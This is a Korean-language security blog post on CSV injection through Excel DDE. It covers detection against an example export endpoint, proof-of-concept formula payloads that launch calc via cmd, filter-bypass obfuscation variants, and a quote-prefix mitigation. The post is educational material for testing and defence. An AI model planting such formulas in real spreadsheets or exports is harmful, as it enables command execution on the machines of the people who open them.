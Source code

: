 ```yaml
---
layout: post
title: CSV Injection
subtitle: Dynamic Data Exchange를 활용한 악성 CSV File 생성
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - Excel
  - CSV
  - DDE
  - Formula_Injection
sidebar:
---
```

## Intro
>🚨
>현재는 사용자가 DDE 작동 허용 설정을 하더라도 DDE가 포함된 CSV 파일을 열 때, Excel 경고창이 나타도록 되어있어 사회 공학적 요소도 필요한 공격 방법입니다.
![](/assets/images/posts/2024-12-04-CSV-Injection/551c0cb564a1e3e7da206410c576583b_MD5.jpeg)
   
Formula Injection 취약점 내 한 종류로 분류되는 CSV Injection은 일반적으로 CSV Export 등과 같은 CSV File Download 기능에서 발생됩니다.   
☑️간혹 잘못된 로직으로 .xlsx 생성 시에 발생하기도 합니다.   

발생 원리는 DDE(Dynamic Data Exchange)라는 Window 운영체제에서 응용 프로그램 간 데이터 전송을 위해 사용되는 기능이 악의적으로 작동됨에 기반합니다.   

운영체제 명령어를 실행시킬 수 있다는 점에서 위험한 취약점이지만, 많은 조건들이 갖춰져야만 실제 공격이 가능하여 일부 버그바운티 프로그램에서는 받아들여지지 않는 취약점 입니다.  

하지만, 악성 DDE를 삽입하는 과정이 단순하며 서비스 특성 상 사용자가 해당 파일을 신뢰하는 상황이라면 위험도는 높습니다. 그 예로 [CVE-2023-51763](https://nvd.nist.gov/vuln/detail/CVE-2023-51763) 가 있습니다.

## Detect & Exploit 
### Detect
사용자 입력 값이 CSV File Download 시 반영되는 지 확인하고, 악성 DDE를 동작시킬 수 있는 특수문자(`-`, `+`, `@`, `=` )가 Cell 가장 앞 부분에 위치할 수 있는 지 확인하면 됩니다.   
```Packet
#Request
GET /api/csv_export HTTP/2
Host: victim.com

#Response
HTTP/2 200 OK

title
=2+5+cmd|' /C calc'!A0
```

### Exploit
탐지한 부분에 악성 DDE를 삽입 후 다운로드하여 작동 여부를 살펴보면 됩니다.
```Excel
#Basic Payload
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0
=cmd|' /C calc'!'A1'

#Prefix obfuscation and command chaining
=AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
=cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
=         cmd|'/c calc.exe'!A

#Using null characters to bypass dictionary filters. Since they are not spaces, they are ignored when executed.
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
```
## Security Measures
악성 DDE를 동작시킬 수 있는 특수문자(`-`, `+`, `@`, `=` )가 Cell 가장 앞부분에 위치할 수 없도록 `Space`, `'` 등을 가장 앞에 삽입하여 조치하면 됩니다.
```Excel
'=2+5+cmd|' /C calc'!A0
 =cmd|' /C calc'!'A1'
```
## References
[Formula/CSV/Doc/LaTeX/GhostScript Injection](https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection)   
[OWASP-CSV Injection](https://owasp.org/www-community/attacks/CSV_Injection)   
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSV%20Injection)